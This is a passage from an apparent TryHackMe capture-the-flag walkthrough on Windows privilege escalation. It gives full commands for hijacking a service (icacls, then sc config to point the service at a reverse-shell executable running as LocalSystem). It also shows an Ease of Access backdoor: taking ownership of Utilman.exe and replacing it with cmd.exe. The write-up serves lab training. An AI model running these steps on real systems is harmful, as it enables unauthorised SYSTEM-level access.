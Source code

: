 Take our last "**rev-svc.exe**" and give it full permissions.

```shell
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

Now we will change the service's associated executable and account.

```shell
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc.exe" obj= LocalSystem
```

Now we can stop and start the service.

```shell
sc stop THMService 
```

```shell
sc start THMService
```

You now should have a shell. The flag is in the admin's desktop.


---
### task 6
---
Here you will need to access the machine with RDP so if your on windows you have it already if you are on Linux use "**Remmina**" it is already on the attack box. (if it asks for a password ignore it and continue).

Once connected start following the task.

Here you have 3 routes you could take to get a shell and get the flag however the one I used was the 2nd option. (I couldn't get the 1st to work. however the 2nd really emphasizes "Ease of Access")

so starting with the second option

#### SeTakeOwnership
We will be attacking the "Ease of Access" prompt when you are at the lock screen. 

If you follow the task you see that the prompt is just an application run by system when used. "**utilman.exe**" 

So first thing we will do to exploit this is take ownership of the utilman.exe.

```shell
takeown /f C:\Windows\System32\Utilman.exe
```

Now like the other tasks give it full permissions.

```shell
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
```

Now we will simply rename the cmd.exe executable to utilman.exe and lock the screen.(Follow the instructions on the task)

```shell
copy cmd.exe utilman.exe
```
